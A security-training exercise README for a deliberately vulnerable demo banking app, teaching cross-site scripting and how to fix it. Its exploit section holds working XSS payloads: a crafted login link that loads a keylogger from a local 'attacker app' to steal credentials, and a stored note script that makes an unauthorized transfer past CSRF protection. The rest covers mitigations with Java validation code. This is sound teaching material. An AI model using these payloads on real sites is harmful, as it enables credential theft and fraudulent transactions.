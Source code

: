 # Exercise 2 - XXS 

This exercise is to help you understand XSS and its mitigation.

## Setup and Start Applications

1. check out exercise2 
   * choose branch 'exercise2' in the 'VCS -> Git -> Branches' menu within IntelliJ
1. start the v-bank-app in debug mode
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
1. start the attacker-app
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
   
## Search for XSS vulnerabilities

XSS is about injecting malicious javascript into the application so that it is executed in the browser within a valis user session.
Please remember the 2 categorizations of XSS vulnerabilities:
#### __reflected OR stored XSS__
1. reflected XSS: the malicious javascript code displayed in the response is included with the corresponding request.
1. stored or persisted XSS: the malicious javascript is read from a storage (typically database), and has to be saved there first.
#### __source OR DOM based XSS__
1. source based: the malicious javascript code is placed into the HTML markup on the server side before sent to the browser/client.
1. DOM based: it is client side javascript code manipulating the page in the browser through its document-object-model (DOM) that places the malicious code into the page.  
#### Hints:
* The v-bank application is a rather traditional multi page web application with little Ajax/Javascript code (there is only a little on the home page).\
Therefore it is mostly susceptible to source based XSS vulnerabilities.
* Look for reflected XSS vulnerabilities where request parameters are directly written to the HTML output (page.tag is template used for all pages)
* Look for stored XSS vulnerabilities where form values are saved without validation/encoding/sanitization and then / or printed without escaping
#### Present XSS vulnerabilities:
* *page.tag* template prints a number of requests parameters into the HTML without escaping:
  * *error* : `<div ...>${error}</div>`
  * *info* : `<div ...>${info}</div>` 
  * *message* : `<div ...>${message}</div>`
  * Test it: 
    1. You should get an alert pop-up with '1' displayed as the javascript in the request parameter executes: http://vbank.127.0.0.1.xip.io:8080/login?info=%3Cscript%3Ealert(1)%3C/script%3E 
* *transfer.jsp* and *BankController.doTransfer(...)* save the transfer details without validation/etc. and *history.jsp* displays them w/o escaping
  * Test it:
    1. Go to the transfer page and make a transfer to any valid account (i.e. 2-123456-22) with the note '<script>alert(2)</script>'
    1. Then visit the history page where you should get an alert pop-up with '1' displayed as the javascript entered in the note filed executes.

## Exploit to understand
1. Exploit stored XSS in login page:
   * as Alice send Bob the login link which installs a keylogger by exploiting the reflected XSS vulnerability: 
     http://vbank.127.0.0.1.xip.io:8080/login?info=%3Cscript%20src=%22http://attack.127.0.0.1.xip.io:9090/js/keylog.js%22%3E%3C/script%3E 
   * the keylogger sends each keystroke to the log service running in the attacker app, the logged keystrokes you can see at http://attack.127.0.0.1.xip.io:9090/viewlog\
     (Do not let the browser autofil the form! ...because there are no keystrokes then)
   * this way Alice can steal Bob's login credentials. Even though the keylogger and the log viewer app are by far no perfect
1. Exploit stored XSS
   * log in as Alice (alice / h1alice) and trasnfer Bob a little amount with the note including a malicious javascript posting a transfer (and overcoming CSRF protection by including the token)
     * Bob's account No is 1-123456-11
     * The attack script is at http://attack.127.0.0.1.xip.io:9090/js/attack.js; this has a function *transfer(formname, fromAccount, toAccount, amount, currency, action)* 
     * Use this in the note field: `<script src="http://attack.127.0.0.1.xip.io:9090/js/attack.js"></script><script>transfer("fromBob1","1-123456-11","3-123456-33","1000","CHF")</script>`
     * Please transfer 1 CHF to Bob's account with the above script in the note.
   * as Bob logs in and reviews his transactions the malicious script included in Alice's transfer executes and transfers Alice a larger amount without Bob's consent.
     * login as Bob (bob / h3ll0bob) and go to the transaction history page (by clickin on the account number); 
     * the malicious script you have just saved in the note field of the transaction as Alice is loaded from the database and executed in the browser;
     * if you refresh the page you sould see the transaction. Acrtually; the script should execute every time the transaction history page is loaded for Bob.
  
## Mitigations:
  * validate input
    * set up validation rules (such as data size/length, format, possible values) for the transaction fields of accountNo, amount, currency
  * encode text input (i.e. with HTML encoding) 
    * on the transaction form this applies to the _note_ field
  * sanitize text/HTML input (remove potentially dangerous char sequences) 
    * only if validation and encoding are not possible (i.e. rich text HTML)
    * well, the transaction form has no such field
  * escape output; it replaces control characters with their encoded counterparts that are not interpreted as controls/commands by the HTML parser and can be displayed (i.e. < will be converted to &gt;)
  * use the Content-Security-Policy HTTP header to control which scripts the browser can execute
    * for example if the browser is sent _Content-Security-Policy_ header with a value _default-src 'self’_ it will only execute scripts from its own web domain (i.e. it will not execute the script from the attack.127.0.0.1 domain).
    * with the Spring framework you can use the _http.headers().contentSecurityPolic(...)_ method, i.e. _http.headers().contentSecurityPolicy("script-src 'self' 'unsafe-inline'")_
    * however, the v-bank application uses inline event handlers to run javascript which we do not want to refactor now. this has to be enabled with the 'unsafe-inline' directive for CSP and this leaves the door open for a number of XSS attacks.  

## Apply mitigations
* Escape output in *page.tag* and *history.jsp*:
For JSP please use c:out tag; you may explicitly set the escapeXml to true `<c:out value="${variable}" escapeXml=true />`
* Validate and encode input in *BankController.doTransfer(...)*

```java
public class BankController {

    private static final Collection<String> SUPPORTED_CURRENCIES = Arrays.asList("CHF", "USD", "GBP", "EUR");

    private static final String ACCOUNT_NO_PATTERN = "^\\d{1}?-\\d{6}?-\\d{2}?$";

    ...
    @RequestMapping(value = "/doTransfer", method = RequestMethod.POST)
    public ModelAndView doTransfer(@ModelAttribute Transaction transaction, ModelMap model) {
        //only execute transfer if the transaction data is valid
        if (validateTransaction(transaction, model)) {
            //note is free text property, we convert it to HTML encoding so that it is safe(r) to handle 
            String encodedNote = Encode.forHtmlContent(transaction.getNote());
            if (accountService.transfer(transaction.getFromAccountNo(), transaction.getToAccountNo(), transaction.getAmount(),
                    transaction.getCurrency(), encodedNote)) {
                model.addAttribute("info", "Transaction was completed.");
            } else {
                model.addAttribute("info", "Transaction is pending.");
            }
            return new ModelAndView("redirect:/", model);
        } else {
            return new ModelAndView("transfer", model);
        }
    }
    
    ...

    private boolean validateTransaction(Transaction transaction, ModelMap modelMap) {
        boolean valid = true;
        try {
            validateAccountNo(transaction.getFromAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("fromAccountNoMsg", e.getMessage());
            valid = false;
        }
        try {
            validateAccountNo(transaction.getToAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("toAccountNoMsg", e.getMessage());
            valid = false;
        }
        if (!SUPPORTED_CURRENCIES.contains(transaction.getCurrency())) {
            modelMap.addAttribute("currencyMsg", "Currency not supported!");
            valid = false;
        }
        if (transaction.getAmount() == null) {
            modelMap.addAttribute("amountMsg", "Transaction amount is required");
            valid = false;
        }
        return valid;
    }
}
```
  
You can see the solution in the __exercise2-solution__ branch at at https://github.com/vargadan/v-bank/tree/exercise2-solution

The relevant changes are:
* validation logic in the BankController class in file _BankController.java_
* the generic page template escaping output in file _page.tag_

More on XSS prevention:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md